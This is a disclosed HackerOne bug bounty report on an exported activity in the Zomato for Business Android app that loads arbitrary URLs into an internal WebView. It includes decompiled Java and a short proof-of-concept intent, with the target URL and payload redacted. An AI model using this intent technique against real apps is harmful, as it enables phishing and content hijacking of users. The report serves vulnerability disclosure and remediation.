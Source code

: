 # [Zomato for Business Android] Vulnerability in exported activity WebView

## Report Details
- **Report ID**: 537670
- **URL**: https://hackerone.com/reports/537670
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-04-13T22:49:58.519Z
- **Disclosed**: 2021-09-23T05:56:45.667Z

## Reporter
- **Username**: shell_c0de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
Hello, i want to report the vulnerability found,
Since the following activity `com.application.zomatomerchant.home.HomeSalt` has `exported="true"` it can be exploited by another application.

###Application Information

Application: [Zomato for Business](https://play.google.com/store/apps/details?id=com.application.zomatomerchant)
Package Name: `com.application.zomatomerchant`
Version: `4.2.5`
Version Status: Last
Vulnerable class: `com.application.zomatomerchant.deeplink.SaltDeepLinkRouterActivity`

###Vulnerability

Using a special intent, you can send a malicious url to class `com.application.zomatomerchant.ZWebView`
```java
public class HomeSalt extends PhiAppCompatActivityWithSimpleToolbar implements C0806a, C0928a {
protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        if (this.f2062r == null) {
            this.f2062r = C0940a.m2184a(this);
        }
        mo7458b(R.layout.home_salt);
        mo7475d(R.string.app_name);
        this.f2061q = (Toolbar) findViewById(R.id.toolbar_simple_root);
        this.f2059o = (DrawerLayout) findViewById(R.id.drawer_layout);
        if (getIntent() != null) {
            Uri data = getIntent().getData();
            if (data != null && m2113a(data.toString())) {
                Bundle extras = getIntent().getExtras();
                if (extras == null || !extras.getBoolean("notification_popup", false)) {
                    mo10440c(data);//put data
//...
 public void mo10440c(Uri uri) {
        if (!C0807b.f1729a.equals(uri)) {
            if (mo10218b(uri)) {
                mo10217a(uri);
            } else {
                SaltDeepLinkRouterActivity.m1755a((Context) this, uri);//put data
//...
public static void m1755a(Context context, Uri uri) {
        Intent intent = new Intent(context, SaltDeepLinkRouterActivity.class);
        intent.setFlags(268435456);
        intent.setData(uri);
        context.startActivity(intent);
    }
//...
 protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        Intent intent = getIntent();
        if (!(intent == null || intent.getData() == null)) {
            Uri data = intent.getData();
            if (mo10218b(data)) {
                mo10217a(data);//put data
//..
 public void mo10217a(Uri uri) {
        if (uri != null) {
            Intent intent;
            C0810e a = C0810e.m1769a((Activity) this);
            String host = uri.getHost();
            List pathSegments = uri.getPathSegments();
            int size = pathSegments != null ? pathSegments.size() : 0;
         
                } else if (!C2150af.m6783a(uri.getScheme()) && uri.getScheme().startsWith("http")) {
                    intent = new Intent(this, ZWebView.class);//load url
                    intent.putExtra("open_external", true);
                    intent.putExtra(NativeProtocol.IMAGE_URL_KEY, uri.toString());//put data
```
Host check missing.
F468292
###PoC

Java PoC:
```java
Intent intent = new Intent("android.intent.action.VIEW");
intent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION|Intent.FLAG_ACTIVITY_NEW_TASK);
intent.setClassName("com.application.zomatomerchant","com.application.zomatomerchant.home.HomeSalt");
intent.setData(Uri.parse("███████/"));
startActivity(intent);
```
Payload: ██████
###Fix

Check the host before load to WebView

## Impact

XSS/Ability of open arbitrary sites in your internal WebView

Allows you to replace the content in the application on malicious website. The user will not be able to understand the difference.

The vulnerability is included in the [Google Play Security Reward Program](https://hackerone.com/googleplay) (section 2 Theft of insecure private date)

## Attachments
- webviewz.jpg
